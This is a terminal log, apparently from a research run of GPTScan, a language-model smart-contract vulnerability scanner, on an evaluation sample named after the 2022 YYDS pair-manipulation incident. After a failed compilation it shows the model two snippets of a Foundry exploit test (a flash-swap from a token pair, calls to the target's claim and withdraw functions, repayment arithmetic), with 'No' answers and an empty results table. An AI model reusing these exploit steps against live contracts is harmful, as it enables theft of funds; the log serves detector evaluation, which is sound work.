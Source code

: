 

  .oooooo.    ooooooooo.   ooooooooooooo  .oooooo..o                                 
 d8P'  `Y8b   `888   `Y88. 8'   888   `8 d8P'    `Y8                                 
888            888   .d88'      888      Y88bo.       .ooooo.   .oooo.   ooo. .oo.   
888            888ooo88P'       888       `"Y8888o.  d88' `"Y8 `P  )88b  `888P"Y88b  
888     ooooo  888              888           `"Y88b 888        .oP"888   888   888  
`88.    .88'   888              888      oo     .d8P 888   .o8 d8(  888   888   888  
 `Y8bood8P'   o888o            o888o     8""88888P'  `Y8bod8P' `Y888""8o o888o o888o                                                        


                                                                   

[17:06:52] Loaded 10 rules                                                                                                                                                                                                                  tasks.py:119
[12/08/24 17:06:52] INFO     CryticCompile: 'npx hardhat clean' running (wd: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20220909 YYDS - pair manipulate)                                                                subprocess.py:41
[12/08/24 17:06:53] INFO     CryticCompile: 'npx hardhat clean --global' running (wd: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20220909 YYDS - pair manipulate)                                                       subprocess.py:41
[12/08/24 17:06:55] INFO     CryticCompile: 'npx hardhat compile --force' running (wd: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20220909 YYDS - pair manipulate)                                                      subprocess.py:41
                    ERROR    CryticCompile: 'npx' returned non-zero exit code 1                                                                                                                                                         subprocess.py:60
                    ERROR    CryticCompile: Error HH411: The library forge-std, imported from contracts/Yyds_exp.sol, is not installed. Try installing it using npm.                                                                    subprocess.py:68
                             stderr: For more info go to https://hardhat.org/HH411 or run Hardhat with --show-stack-traces                                                                                                                              
[17:06:55] Traceback (most recent call last):                                                                                                                                                                                               tasks.py:126
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 90, in __init__                                                                                                          
               crytic_compile = CryticCompile(target, **kwargs)                                                                                                                                                                                         
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 131, in __init__                                                                                         
               self._compile(**kwargs)                                                                                                                                                                                                                  
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 553, in _compile                                                                                         
               self._platform.compile(self, **kwargs)                                                                                                                                                                                                   
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/hardhat.py", line 183, in compile                                                                                        
               hardhat_like_parsing(crytic_compile, self._target, build_directory, hardhat_working_dir)                                                                                                                                                 
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/hardhat.py", line 52, in hardhat_like_parsing                                                                            
               raise InvalidCompilation(txt)                                                                                                                                                                                                            
           crytic_compile.platform.exceptions.InvalidCompilation: Compilation failed. Can you run build command?                                                                                                                                        
           /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20220909 YYDS - pair manipulate/artifacts/build-info is not a directory.                                                                                                          
                                                                                                                                                                                                                                                        
           During handling of the above exception, another exception occurred:                                                                                                                                                                          
                                                                                                                                                                                                                                                        
           Traceback (most recent call last):                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 124, in simple_cli                                                                                                                                              
               falcon_instance = compile_project(source_dir)                                                                                                                                                                                            
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 103, in compile_project                                                                                                                                         
               return falcon.Falcon(abs_path)                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 94, in __init__                                                                                                          
               raise FalconError(f"Invalid compilation: \n{str(e)}")                                                                                                                                                                                    
           falcon.exceptions.FalconError: Invalid compilation:                                                                                                                                                                                          
           Compilation failed. Can you run build command?                                                                                                                                                                                               
           /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20220909 YYDS - pair manipulate/artifacts/build-info is not a directory.                                                                                                          
                                                                                                                                                                                                                                                        
           Compile failed.                                                                                                                                                                                                                  tasks.py:127
           Since the compilation is failed, some static analysis tool may not be enabled, which may cause lower precision and recall.                                                                                                       tasks.py:128
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function testExploit() public {                                                                                                                                                                                                                  │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "[Start] Attacker USDT balance before exploit",                                                                                                                                                                                          │
│             USDT.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         (reserve0, reserve1, ) = Pair.getReserves();                                                                                                                                                                                                 │
│         uint256 amount0Out = USDT.balanceOf(address(Pair));                                                                                                                                                                                          │
│         Pair.swap(amount0Out - 1 * 1e18, 0, address(this), new bytes(1));                                                                                                                                                                            │
│                                                                                                                                                                                                                                                      │
│          emit log_named_decimal_uint(                                                                                                                                                                                                                │
│             "[End] Attacker USDT balance after exploit",                                                                                                                                                                                             │
│             USDT.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│     "1": "No"                                                                                                                                                                                                                                        │
│ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function pancakeCall(address sender, uint amount0, uint amount1, bytes calldata data)  public{                                                                                                                                                   │
│                                                                                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "Attacker YYDS balance before exploit",                                                                                                                                                                                                  │
│             YYDS.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         targetClaim.claim(address(this));                                                                                                                                                                                                            │
│         try targetWihtdraw.withdrawReturnAmountByReferral(){                                                                                                                                                                                         │
│         } catch{                                                                                                                                                                                                                                     │
│         }                                                                                                                                                                                                                                            │
│         try targetWihtdraw.withdrawReturnAmountByMerchant(){                                                                                                                                                                                         │
│         } catch{                                                                                                                                                                                                                                     │
│         }                                                                                                                                                                                                                                            │
│         try targetWihtdraw.withdrawReturnAmountByConsumer(){                                                                                                                                                                                         │
│         } catch{                                                                                                                                                                                                                                     │
│         }                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "Attacker YYDS balance after exploit",                                                                                                                                                                                                   │
│             YYDS.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         uint256 yydsInContract = YYDS.balanceOf(address(this));                                                                                                                                                                                      │
│         YYDS.transfer(address(Pair), yydsInContract);                                                                                                                                                                                                │
│         uint256 yydsInPair = YYDS.balanceOf(address(Pair));                                                                                                                                                                                          │
│         uint256 amountUsdt = (reserve0 * reserve1 / ((yydsInPair * 10000 - yydsInContract * 25)/10000)) /9975*10000;                                                                                                                                 │
│         USDT.transfer(address(Pair), amountUsdt);                                                                                                                                                                                                    │
│                                                                                                                                                                                                                                                      │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│     "1": "No"                                                                                                                                                                                                                                        │
│ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
                      Scan Results                       
┏━━━━━━┳━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━┓
┃ Type ┃ Description ┃ Affected Files ┃ Analysis Report ┃
┡━━━━━━╇━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━┩
└──────┴─────────────┴────────────────┴─────────────────┘
                  Summary                   
┏━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━┓
┃ Key                  ┃ Value             ┃
┡━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━┩
│ Files                │ 1                 │
│ Contracts            │ 3                 │
│ Functions            │ 2                 │
│ Lines of Code        │ 85                │
│ Used Time            │ 5.313354253768921 │
│ Estimated Cost (USD) │ 0.0009525         │
└──────────────────────┴───────────────────┘
